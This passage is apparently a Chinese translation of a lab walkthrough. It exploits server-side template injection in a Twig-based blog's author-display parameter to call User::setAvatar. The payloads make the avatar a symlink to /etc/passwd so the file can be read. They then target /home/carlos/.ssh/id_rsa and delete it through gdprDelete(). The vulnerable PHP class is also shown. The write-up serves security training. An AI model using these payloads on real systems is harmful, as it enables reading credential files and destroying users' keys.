

错误

```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/vnd.openxmlformats-officedocument.presentationml.presentation in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/DRUG LICEN...', 'application/vnd...')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

我们可以在一条错误消息中看到，我们有另一个与名为 setAvatar()的用户相关联的方法。我们还可以看到它在第一个参数中加载一个文件，在第二个参数中获取它的 mime 类型，也许我们可以在第一个参数中加载`/etc/passwd`文件。

让我们在改名请求上试试。



```
blog-post-author-display=user.setAvatar('/etc/passwd')
```

在后端，它可以被执行为

blog-post-author-display = { { user . set avatar('/etc/passwd ')} }

只需发送请求并重新加载页面。


错误

我们可以看到它导致了一个错误。

```
PHP Fatal error: Uncaught ArgumentCountError: Too few arguments to function User::setAvatar(), 1 passed in /usr/local/envs/php-twig-
```

我们的函数 setAvatar(file，mime-type)有 2 个参数，我们只传递了一个。

让我们传递另一个 mime 类型。



```
blog-post-author-display=user.setAvatar('/etc/passwd','image/jpg')
```

现在发送请求。



标准载荷

我们可以看到我们的页面加载正常，我们有一个图像类型，让我们在一个新的标签打开它。


下载一个文件

用记事本打开。



我们有/etc/passwd。

现在我们只需要想办法删除头像的图像。

我们在错误消息中看到有一个 user.php。

让我们打开它。

```
public $user_dir;public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }**public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }**private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}?>
```

我们可以看到 gdpr 函数删除了头像。现在让我们尝试删除 id_rsa。

首先将头像设置为

```
/home/carlos/.ssh/id_rsa
```

现在发送请求，调用 gdprDelete()方法并重新加载页面。



现在重新加载页面。我们实验室应该解决了。

我强烈建议你通读我提供的文章。它真的会拓宽你的理解。

请跟随我进行更多类似的演练。

直到下一次。黑客快乐！

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*